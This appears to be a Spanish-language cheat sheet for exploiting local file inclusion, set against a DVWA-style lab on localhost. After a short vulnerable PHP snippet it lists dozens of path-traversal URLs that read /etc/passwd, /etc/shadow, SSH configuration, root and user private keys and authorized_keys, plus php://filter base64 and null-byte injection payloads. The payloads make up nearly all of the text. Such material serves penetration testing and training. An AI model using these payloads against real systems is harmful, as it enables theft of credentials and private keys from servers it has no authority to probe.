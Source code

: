 # _LFI_cheat-sheet_
los importantes metodos para enumerar la vulnerabilidad de LFI

# _enumerar archivos del sistema linux si contiene una vulnerabilidad LFI_

     1=Low File Inclusion Source
        <?php
                // The page we wish to display
                $file = $_GET[ 'page' ];
        ?>
    http://localhost/vulnerabilities/fi/?page=file1.php/
    #http://localhost/vulnerabilities/fi/?page=/etc/passwd/
    #http://localhost/vulnerabilities/fi/?page=../../../../../etc/passwd/
    #http://localhost/vulnerabilities/fi/?page=/etc/passwd?
    #http://localhost/vulnerabilities/fi/?page=../../../../../etc/passwd?
    #http://localhost/vulnerabilities/fi/?page=/etc/group/
    #http://localhost/vulnerabilities/fi/?page=../../../../../etc/group/
    #http://localhost/vulnerabilities/fi/?page=/etc/shadow/
    #http://localhost/vulnerabilities/fi/?page=../../../../../etc/shadow/
    #http://localhost/vulnerabilities/fi/?page=/etc/issue/
    #http://localhost/vulnerabilities/fi/?page=../../../../../etc/issue/
    #http://localhost/vulnerabilities/fi/?page=/etc/hostname/
    #http://localhost/vulnerabilities/fi/?page=../../../../../etc/hostname/
    #http://localhost/vulnerabilities/fi/?page=/etc/ssh/ssh_config/
    #http://localhost/vulnerabilities/fi/?page=../../../../../etc/ssh/ssh_config/
    #http://localhost/vulnerabilities/fi/?page=/etc/ssh/sshd_config/
    #http://localhost/vulnerabilities/fi/?page=../../../../../etc/ssh/sshd_config/
    #http://localhost/vulnerabilities/fi/?page=../../../../../root/.ssh/id_rsa
    #http://localhost/vulnerabilities/fi/?page=/root/.ssh/id_rsa
    #http://localhost/vulnerabilities/fi/?page=/root/.ssh/authorized_keys
    #http://localhost/vulnerabilities/fi/?page=../../../../../root/.ssh/authorized_keys
    #http://localhost/vulnerabilities/fi/?page=/home/user/.ssh/id_rsa
    #http://localhost/vulnerabilities/fi/?page=../../../../../home/user/.ssh/id_rsa
    #http://localhost/vulnerabilities/fi/?page=/home/user/.ssh/authorized_keys
    #http://localhost/vulnerabilities/fi/?page=../../../../../home/user/.ssh/authorized_keys
    #http://localhost/vulnerabilities/fi/?page=../../../../../proc/net/fib_trie
    #http://localhost/vulnerabilities/fi/?page=../../../../../proc/net/sched_debug
    #http://localhost/vulnerabilities/fi/?page=../../../../../proc/net/tcp
    #http://localhost/vulnerabilities/fi/?page=/config.inc.php
    
    ====>ENCODING WRAPPER "base64"
    http://localhost/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=/etc/passwd
    cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb==
    ====>NULL BYTE INJECTION
    http://localhost/vulnerabilities/fi/?page=../../../../../etc/passwd%00


# _enumerar archivos del sistema linux si contiene una vulnerabilidad LFI_
